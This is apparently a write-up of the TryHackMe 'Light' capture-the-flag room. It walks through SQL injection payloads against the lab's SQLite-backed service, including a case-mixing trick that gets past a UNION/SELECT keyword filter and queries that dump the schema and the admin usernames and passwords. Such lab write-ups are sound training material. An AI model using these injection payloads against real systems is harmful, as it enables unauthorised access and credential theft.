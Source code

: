# Light THM CTF Walkthrough

![Image](https://github.com/user-attachments/assets/5290634e-2fc4-4f83-92d2-a67e8a10efde) <br/>
Solving DAV TryHackMe Capture The Flag [Light TryHackMe Room](https://tryhackme.com/room/lightroom)

## Connect to the Database

rlwrap is used for better use of shell rather than base netcat listener.

```sh
rlwrap nc <URL> 1337
```

![Image](https://github.com/user-attachments/assets/9e04c1e0-c05e-4b3b-b940-a7f1ee0c5c13) <br/>

---

Passing ' to check for SQL Injection Vulnerability.

```sh
'
```

![Image](https://github.com/user-attachments/assets/fa1c9260-ad8b-4418-a7e8-8b84c3fe4585) <br/>

This site is injectable.

---

Attempting union injection.

```sh
' union
```

![Image](https://github.com/user-attachments/assets/d9f23ab2-f940-4633-96a5-97f09ac3c5ac) <br/>

It seems union and select terms are prohibited.

---

Playing with sentence case.

```sh
' UnION
```

![Image](https://github.com/user-attachments/assets/007872c6-637a-4d60-a0cb-386812ead888)

It Worked!

---

Trying union select 1 with the new command.

```sh
' UnION SeleCT 1 '
```

![Image](https://github.com/user-attachments/assets/f8d41a32-7514-482c-b776-f092c63b23b1) <br/>

---

Trying to find out sql version.

```sh
' UnION SeleCT version() '
```

![Image](https://github.com/user-attachments/assets/bae8cc21-7715-413b-8d33-97309c186303)

---

Let's try with sqlite_version since CTF name was "Light"

```sh
' UnION SeleCT sqlite_version() '
```

![Image](https://github.com/user-attachments/assets/25348212-c85d-41f7-8a8c-7d13c35f9c37)

It Works

---

Using this command to extract database schema by concatenating SQL from sqlite_master table.

```sh
' UnION SeleCT group_concat(sql) from sqlite_master'
```

![Image](https://github.com/user-attachments/assets/f9395315-ffa7-47ba-94cb-65a7d4397506)

---

Getting the desired data as asked in the question.

```sh
' UnION SeleCT group_concat(username) from admintable '
```

```sh
' UnION SeleCT group_concat(password) from admintable '
```

![Image](https://github.com/user-attachments/assets/86f46714-7c41-4c0a-86bb-a67c2ef5126c) <br/>

---

## Congratulations on solving the Light THM CTF
